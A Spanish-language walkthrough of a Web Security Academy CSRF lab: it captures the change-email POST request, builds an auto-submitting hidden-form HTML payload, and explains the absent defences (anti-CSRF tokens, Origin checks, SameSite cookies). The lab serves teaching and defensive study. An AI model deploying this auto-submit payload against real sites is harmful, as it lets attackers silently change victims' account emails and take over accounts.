

## LAB

En el sitio web, podremos actualizar el email del usuario **wiener**


Interceptaremos  la request de la accion de cambiar el correo del usuario.


aquí vemos que hace una petición post y entre los parámetros tenemos el **emali**

Analicemos la request que se envía por **post**

```c
POST /my-account/change-email HTTP/2
Host: 0acb0045037f45e1829e971f00920092.web-security-academy.net
Cookie: session=Z8mmAb0GNbL6Y4wx4azFEHLmsfflT37z
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0acb0045037f45e1829e971f00920092.web-security-academy.net
Dnt: 1
Sec-Gpc: 1
Referer: https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account?id=wiener

Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

email=test%40test.com
```

Método: POST
URL completa: https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account/change-email
Parámetro en el body: email=test@test.com (%40 es @)
Content-Type: application/x-www-form-urlencoded (el que usa un formulario HTML normal)

Teniendo en cuenta esta información, vamos a construir nuestro código malicioso

```c
<html>
  <body>
    <form action="https://0acb0045037f45e1829e971f00920092.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Enviar petición" />
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>

```

```html
<form action="URL completa extraída" method="POST">
```

Y dentro del formulario, agregué el único parámetro:

```html
<input type="hidden" name="email" value="test@test.com" />
```

Este `input` está oculto (para que el usuario no lo vea) y simula exactamente el parámetro enviado en la petición original.

Para que el ataque ocurra **sin intervención del usuario**, se necesita enviar el formulario automáticamente. Para eso se usa JavaScript:

```html
<script>   document.forms[0].submit(); </script>
```

Esto selecciona el primer formulario (`forms[0]`) y ejecuta `.submit()` para enviarlo.

Ahora debemos dirigirnos al servidor del atacante y copiar el código anterior.


### ¿Qué tipo de seguridad está ausente?

Un sitio vulnerable a CSRF no implementa una o más de estas defensas clave:

1. Token CSRF (o Anti-CSRF token) — AUSENTE
El sitio debería generar un token único por sesión y requerir que cada formulario POST lo incluya.

El servidor debe validar ese token en cada acción crítica.

Como el atacante no puede leer el token (por política de mismo origen), no puede falsificarlo.

2. Cabeceras personalizadas o CORS restringido — AUSENTE
Si el backend acepta peticiones desde cualquier origen (sin validación de Origin o Referer), permite CSRF.

En cambio, un backend seguro debería validar que las solicitudes vienen de su propio dominio.

3. SameSite Cookies — MAL CONFIGURADAS o AUSENTES
Las cookies modernas pueden incluir SameSite=Lax o SameSite=Strict.

Lax previene CSRF en la mayoría de formularios.

Strict lo bloquea incluso en enlaces.

Si la cookie está configurada como SameSite=None sin Secure, el navegador la enviará en cualquier contexto, permitiendo CSRF.
